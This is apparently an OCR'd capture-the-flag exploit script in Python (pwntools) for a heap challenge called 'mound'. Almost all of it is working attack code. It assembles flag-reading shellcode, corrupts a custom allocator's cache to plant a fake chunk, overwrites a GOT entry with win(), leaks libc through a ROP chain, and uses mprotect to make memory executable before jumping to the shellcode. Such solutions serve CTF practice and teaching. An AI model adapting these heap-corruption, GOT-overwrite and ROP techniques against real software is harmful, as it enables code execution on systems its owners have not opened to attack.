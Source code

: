    ```python
   sc+= 'mov rax, QWORD PTR [{}]\n'.format(mound_data.base)
   sc+= shellcraft.openat('rax', 'rbx', 0)
   sc+= shellcraft.read('rax', mound_arena.base, FLAG_LEN)
   sc+= shellcraft.write(1, mound_arena.base, FLAG_LEN)
   sc = asm(sc) # don't call asm() twice
   add(1+csize2midx(request2size(len(sc))), 8, sc) # dump shellcode somewhere in mound_data for later use
   
   for _ in range(3): r64bit() # There have been 5 rand64bit() calls so far; account for them.
   
   # The substance of the exploit: getting mcache->entries[-1] to point to a fake mchunk
   for midx,b in tqdm((i+midxs.entries,b) for i,b in enumerate(pack(mound_data.fakechunk)) if b):
       def pad(s: bytes): return s.rjust(0x17, b'a')
       strdup(pad(b''), 0xf) # Remember that maximally, user_sz = 8 (mod 0x10) for a given glibc heap chunk.
       strdup(pad(b''), 0xe) # A string has a trailing nul-byte, so maximally strlen(s) = 7 (mod 0x10)
       add(midx, 2, b'hi')
       while (pred := r64bit())>>56: add(midx, 2, b'hi')
       for _ in range(b):
           free(2)
           edit(0xf, pad(pack(r64())[:7]))
           free(0xe)
           edit(0xf, pad(pack(pred)[:7]))
           add(midxs.incrementer, 5, b'a'*0x10)
   # , free it + a chunk right in front of it, overflow into the real freed chunk's metadata to
   add(midxs.bugged, 2, b'') # Get the fake chunk allocated,
   free(2) # free it + the chunk overlapping with the fake chunk
   free(1) # prepare to overwrite freed mchunk metadata such that ->next points to a fake chunk on the mound_arena
   add(midxs.fakechunk, 2, b'overwrite!'.ljust(0x10,b'a') + fake_mcache_entry(sz=999, fd=mound_arena.mcache-0x10))
   add(midxs.overflower, 1, 'hi') # put the fake mound_arena chunk on the mcache
   add(midxs.overflower, 1, fit(mound_data.mcache, context.binary.got['setvbuf'])) # replace mound_arena->top with the GOT
   add(midxs.got_overwriter, 2, pack(context.binary.sym.win)) # overwrite a good function with win() (I use scanf() here)
   
   # win() will execute. Leak libc in the first cycle.
   R = ROP(context.binary)
   R.raw(0x48*b'a')
   R.puts(context.binary.got['read'])
   R.win()
   r.sendlineafter(';)\n', R.chain())
   context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
   # Using libc, change 0xbeef* to an rwx page, and jump to the shellcode that was allocated there earlier on.
   R = ROP(context.libc)
   R.raw(0x48*b'a')
   R.mprotect(mound_data.base, 0x400000, 7)
   R.call(mound_data.shellcode)
   r.sendlineafter(';)\n', R.chain())
   # get flag
   print(r.recvall())
   ```
   